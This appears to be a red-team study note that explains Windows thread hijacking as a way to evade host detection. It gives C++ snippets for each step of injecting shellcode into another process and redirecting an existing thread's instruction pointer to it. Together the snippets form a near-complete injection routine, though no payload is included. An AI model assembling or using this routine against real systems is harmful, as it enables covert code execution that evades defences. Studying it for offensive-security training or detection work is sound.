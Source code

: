 ```yaml
---
tags:
  - red-team/host-evasion
date-created: 2025-06-13
dg-publish: true
---
```

~ [[Abusing Windows Internals]]
### Introduction
---
Thread hijacking is a technique used by attackers to inject code (shellcode) into an existing **thread** of a legitimate process, then **redirect** that thread to execute their **malicious code** instead.

It is much stealthier than creating a new thread such as `CreateRemoteThread` because you'r hijacking an existing thread, making it harder to detect.

A _thread_ is like a **worker** inside a program (restuarant) that performs a specific task in order to ensure the program (restaurant) runs smoothly.
## Steps
---
**Step 1: Open the Target Process**

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
```

- Locate the **target** process by it's PID.
- Use `OpenProcess` to get a handle to the process with **full access** (`PROCESS_ALL_ACCESS`) so we can write to it and manipulate its memory/threads.

**Step 2: Allocate Memory in the Target Process**

```cpp
PVOID remoteBuffer = VirtualAllocEx(
    hProcess,
    NULL,
    sizeof shellcode,
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Reserves and commits memory within the **remote process**.

- The allocated memory will store the **malicious shellcode**, hence we use `sizeof shellcode`.

- `PAGE_EXECUTE_READWRITE` allows the code to be executed, read, and written.

**Step 3: Write Shellcode to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess,
    remoteBuffer,
    shellcode,
    sizeof shellcode,
    NULL
);
```

Inject the **shellcode** (malicious payload) into the **allocated memory** inside the target process.

**Step 4: Take a Snapshot of All Threads**

```cpp
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
```

- Takes a **snapshot of all threads** running on the system.
    
- Needed to identify which thread **belongs** to the target process.

**Step 5: Find a Thread from the Target Process**

```cpp
THREADENTRY32 threadEntry;
Thread32First(hSnapshot, &threadEntry);

while (Thread32Next(hSnapshot, &threadEntry)) {
    if (threadEntry.th32OwnerProcessID == processId) {
        // Found thread belonging to our target process 
        // The code inside this if condition is at step 6
    }
}
```

Loops through all threads and checks if any of them belong to the target process (`th32OwnerProcessID` == target PID).

**Step 6: Open the Target Thread**

```cpp
HANDLE hThread = OpenThread(
    THREAD_ALL_ACCESS,
    FALSE,
    threadEntry.th32ThreadID
);
```

- Opens the **target thread** found in the previous step.

- Grants **full control** over the thread (read, write, suspend, etc.).

**Step 7: Suspend the Target Thread**

```cpp
SuspendThread(hThread);
```

Freezes the thread so we can **safely manipulate** its execution context.

**Step 8: Get the Thread's Context**

```cpp
CONTEXT context;
context.ContextFlags = CONTEXT_FULL;

GetThreadContext(hThread, &context);
```

- Retrieves the **execution context** of the thread.
    
- This includes register values like the **instruction pointer (RIP)**.

**Step 9: Set RIP to Our Shellcode**

```cpp
context.Rip = (DWORD_PTR)remoteBuffer;
```

- **Modifies the Instruction Pointer (RIP)** to point to our **malicious shellcode**.
    
- RIP determines the next instruction the CPU will execute.

**Step 10: Apply the Modified Context**

```cpp
SetThreadContext(hThread, &context);
```

- **Writes back** the modified thread context.
    
- The thread will now execute the shellcode once resumed.

**Step : Resume Thread**

```cpp
ResumeThread(hThread);
```

- Resumes the previously suspended thread.
    
- Execution jumps to our shellcode in the remote process.

### Prerequisite in order to work
---
- **High privileges** especially `PROCESS_ALL_ACCESS` and `THREAD_ALL_ACCESS`
- Target process must allow memory allocation and thread manipulation (i.e., not protected by kernel drivers like anti-virus)
- Architecture match: injector must match target process — both x86 or both x64

